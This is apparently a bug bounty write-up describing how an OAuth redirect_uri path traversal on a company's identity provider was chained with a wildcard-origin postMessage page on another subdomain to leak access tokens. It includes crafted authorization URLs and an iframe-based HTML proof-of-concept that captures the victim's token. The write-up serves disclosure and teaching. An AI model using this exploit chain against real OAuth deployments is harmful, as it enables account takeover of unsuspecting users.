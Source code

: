```yaml
---
layout: post
title: OAuth and PostMessage
subtitle: Chaining misconfigurations for your access token.
tags: [postmessage,OAuth,ATO]
---
```


Tl;dr: An OAuth misconfiguration was discovered in the `redirect_uri` parameter at the target's OAuth IDP at https://app.target.com/oauth/authorize, which allowed attackers to control the path of the callback endpoint using the `../` characters. This issue was chained with a postMessage misconfiguration at a different subdomain, `https://xyz.target.com/something/somepage.html`, which used the same IDP for authenticating users. This chain of vulnerabilities led to access token leakage and account takeover.

## Summary

It has been a while since I last wrote about a finding. In this blog post, I want to share a vulnerability where I was able to chain an OAuth misconfiguration (yes, they still exist!) with a postMessage misconfiguration. This ultimately allowed me to steal a victim's login tokens if they clicked on a malicious link. For the sake of confidentiality, I've made changes to the original vulnerable URLs.

I usually go deep into a single application while testing for bugs. This approach allows me to understand the functionalities of the target, which can lead to findings like this one. I'll assume that readers of this post are familiar with OAuth. If not, I strongly recommend going through [this](https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth) article first.

## OAuth misconfiguration

OAuth misconfigurations typically occur when properties of an OAuth client are configured insecurely, which can lead to consequences such as access token leakage. Let’s assume the target I was testing had an OAuth IDP at `https://app.target.com/oauth/authorize`

Messing with the `redirect_uri` parameter is one of the most common ways to exploit OAuth weaknesses. An attacker can provide a malicious URL in the redirect_uri parameter, causing the user to be redirected to that URL with their access token or OAuth code.

However, this type of vulnerability has become quite rare these days. Simply providing my URL in the `redirect_uri` parameter didn't work here, and the server threw an error as expected. After some investigation, I discovered that it was possible to manipulate the path of the callback endpoint in the redirect_uri parameter using `../`. For example, if we click:

~~~
https://app.target.com/oauth/authorize?client_id=APP&redirect_uri=https://app.target.com/callback/../anything&response_type=token
~~~

we would be redirected to: 

~~~
https://app.target.com/anything#access_token=[ACCESS_TOKEN_FOR_APP]
~~~

Instead of the intended `/callback` endpoint! 

However, this discovery was useless unless we could find an open redirection issue and chain it up with this directory traversal to exfiltate the victim's access token. I spent some time looking for an open redirection but couldn't find any. After spending more time, I decided to change my approach.

## A different Approach

The target I was testing was a mid-sized enterprise software company with multiple subdomains and features, such as resources, learning centers, blogs, etc. I began exploring these areas without actively testing for any bugs, as they were out of scope.

One specific subdomain, xyz.target.com, featured a login process that utilized the authorization server at `https://app.target.com/oauth/authorize`, similar to the main application for user authentication. The OAuth request looked like this:

~~~
https://app.target.com/oauth/authorize?client_id=XYZ&redirect_uri=https://xyz.target.com/callback&response_type=code&state=%2F
~~~

If the user is logged in at `https://app.target.com`, the server would redirect them to:

~~~
https://xyz.target.com/callback?code=[oauth_code_for_xyz]&state=%2F
~~~

This then triggers a 302 redirect where the Location header value matches the state parameter, which is `%2F` (equivalent to /). This indicates that we can control the path after the OAuth flow.

The subdomain at xyz.target.com was a learning center where users could complete their course and give exams for certifications. While surfing, I noticed an HTML file requested in the background: **https://xyz.target.com/something/somepage.html** with the following content:

~~~HTML
<script>
//...snip...
      window.frameHash = window.location.hash.replace(/^#/, '');

      var postToParent = function(message) {
        if (window.parent.postMessage != null) {
          window.parent.postMessage(message, '*');
        }
      };

//...snip...

postToParent({
      id: window.frameHash,
      message: 'loaded'
    });

</script>
~~~

As soon as I saw this, I knew I have an account takeover vulnerability. If you didn't notice, the above code snippet is vulnerable to postMessage misconfiguration. PostMessage misconfiguration happens when the browser sends sensitive data to different origins using the **window.postmessage()** javascript function. You can read more about these misconfigurations [here](https://book.hacktricks.xyz/pentesting-web/postmessage-vulnerabilities). 

This specific code would send the  **window.location.hash** property to its parent window, at line 10, regardless of any origin (\*). Additionally, the page was also missing the **X-frame-Options** header that allowed any origin to load it in iframes. 

Now that we have a directory traversal, a limited redirection, and a postmessage misconfig, we can chain these issues to steal the victim's access token for https://app.target.com**! Before proceeding, I'd like you to first think about how we can take advantage of these three issues and leak the access token.**

Here's my PoC to exploit the issues, 

~~~HTML
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>POC</title>
</head>
<body>

<iframe src="https://app.target.com/oauth/authorize?client_id=APP&response_type=token&redirect_uri=https%3A%2F%2Fapp.target.com%2Fcallback%2F..%2Foauth%2Fauthorize%3Fresponse_type%3Dcode%26client_id%3DXYZ%26redirect_uri%3Dhttps%253A%252F%252Fxyz.target.com%252Fcallback%26scope%3Dfull%26state%3D%2fsomething%2fsomepage.html&scope=full"></iframe>

<script type="text/javascript">
  window.addEventListener("message",function(e){alert(JSON.stringify(e.data))})
</script>

</body>
</html>
~~~

The above POC code would create an Iframe pointing to :
~~~
https://app.target.com/oauth/authorize?client_id=APP&response_type=token&redirect_uri=https://app.target.com/callback/../oauth/authorize?response_type=code%26client_id=XYZ%26redirect_uri=https%3A%2F%2Fxyz.target.com%2Fcallback%26scope=full%26state=%2fsomething%2fsomepage.html&scope=full&response_type=token
~~~
 
If the user is logged into app.target.com, the following happens:-

After visiting our malicious hosted page, the server would throw a 302 to the following URL, with the access token in the hash. The hash is always preserved on the client-side irrespective of the number of redirections.
~~~
https://app.target.com/callback/../oauth/authorize?response_type=code&client_id=XYZ&redirect_uri=https://xyz.target.com/callback&state=/something/somepage.html#access_token=[ACCESS_TOKEN_FOR_APP]`
~~~

Notice the path of the redirection: `/callback/../oauth/authorize/`. This directory traversal would initiate the OAuth flow for the xyz.target.com domain with the access token for the app in the hash with the following 302 redirections:
~~~
https://app.target.com/oauth/authorize?client_id=XYZ&redirect_uri=https://xyz.target.com/callback&response_type=code&state=/something/somepage.html#access_token=[ACCESS_TOKEN_FOR_APP]
~~~

With our token still  in the hash the user gets redirected to
~~~
https://xyz.target.com/callback?code=[oauth_code_for_xyz]&state=/something/somepage.html#access_token=[ACCESS_TOKEN_FOR_APP]
~~~

Notice the value of the state parameter. 

This callback endpoint would authenticate the user to xyz.target.com and then redirect them to the page vulnerable to postmessage misconfiguration.
~~~
https://xyz.target.com/something/somepage.html#access_token=[ACCESS_TOKEN_FOR_APP]
~~~

The **window.postmessage()** function would then send the access_token in its hash to the parent window (Our malicious page that hosted the iframe).

Since the entire **app.target.com** relied on this stolen access token for authentcating a user, an attacker could've takeover the victim's account by exploiting these issues.

This issue was reported and resolved by removing the HTML page with vulnerable postMessage misconfig as well as by blocking **../** characters in the **redirect_uri** parameter. 

## Timeline:

* 5-Aug-2021:  Issue discovered and reported

* 13-Aug-2021: Severity lowered from **high** to **medium** because the postmessage misconfiguration was on an OOS subdomain.

* 13-Aug-2021: Bounty Rewarded as along with a bonus because the team thought it was quite an impressive exploit chain :)

![feedback](/assets/img/oauth-postmessage-misconfig/feedback.JPG){: .mx-auto.d-block :}

* 8-Oct-2021:  Issue resolved and closed. 


Thanks for reading! Feel free to reach out on [Twitter](https://twitter.com/surajdisoja) if you have any doubts regarding the post or want to chat! :)
